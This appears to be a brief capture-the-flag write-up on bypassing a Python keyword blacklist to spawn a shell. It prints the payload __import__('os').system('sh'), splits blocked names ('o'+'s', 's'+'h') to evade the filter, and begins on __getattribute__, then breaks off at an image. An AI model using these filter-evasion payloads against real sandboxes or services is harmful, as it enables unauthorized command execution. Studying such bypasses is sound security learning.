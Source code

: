 # Explanation
ok, so at the first, we had short blacklist, and that was the main function of the __RoadtoShell__ payload


```
blacklist = ['__import__', '__system__', 'sh', 'os']
```

So, at the first, lets focus on the string things, __os__ and __sh__

If u remember, in python, we can just plus the string from

```
__import__('os').system('sh')
```
to
```
__import__('o'+'s').system('s'+'h') 
```

Second, lets fix the **__import__** and **__system__**

so we can change the function using strings, using the builtins function

```
__getattribute__()
```

u can see the image below, its just the same
<img src="img/blacklistmodel1-1.png"> 